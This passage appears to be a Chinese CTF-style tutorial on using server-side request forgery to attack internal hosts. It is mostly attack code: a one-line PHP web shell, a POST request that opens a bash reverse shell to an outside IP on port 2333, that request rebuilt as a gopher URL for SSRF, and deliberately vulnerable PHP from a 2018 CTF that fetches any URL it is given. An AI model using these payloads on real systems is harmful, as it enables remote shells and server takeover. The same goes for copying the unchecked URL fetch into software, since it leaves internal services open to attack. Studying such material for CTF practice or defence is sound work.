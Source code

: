 # 攻击内网主机

> 原文：[https://www.zhihuifly.com/t/topic/3580](https://www.zhihuifly.com/t/topic/3580)

#### 攻击内网主机

假设有一台主机存在exp.php文件

```
//exp.php
<?php system($_POST[e]);?> 
```

利用方式：

```
POST /exp.php HTTP/1.1
Host: 127.0.0.1
User-Agent: curl/7.43.0
Accept: */*
Content-Length: 49
Content-Type: application/x-www-form-urlencoded `e=bash -i >%26 /dev/tcp/172.19.23.228/2333 0>%261` 
```

构造gopher协议的url：

```
gopher://127.0.0.1:80/_POST /exp.php HTTP/1.1%0d%0aHost: 127.0.0.1%0d%0aUser-Agent: curl/7.43.0%0d%0aAccept: */*%0d%0aContent-Length: 49%0d%0aContent-Type: application/x-www-form-urlencoded%0d%0a%0d%0ae=bash -i >%2526 /dev/tcp/172.19.23.228/2333 0>%25261null 
```

**湖湘杯2018**

```
<?php 
if(!isset($_GET['url'])){
  echo "ssrf me with parameter 'url'";
}
$ch = curl_init(); 
curl_setopt($ch, CURLOPT_URL, $_GET['url']); 
//echo $_GET['url'];
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
#curl_setopt($ch, CURLOPT_FOLLOWLOCATION, 1);
curl_setopt($ch, CURLOPT_HEADER, 0); 
echo curl_exec($ch); 
curl_close($ch); `//var_dump($_POST);

$ip = $_SERVER[‘REMOTE_ADDR’];

if(isset($_POST[‘user’])){

if($_POST[‘user’]==“admin” && $ip==“127.0.0.1”){

system("/var/www/html/ssrf/readflag");

}

}

?>` 
```
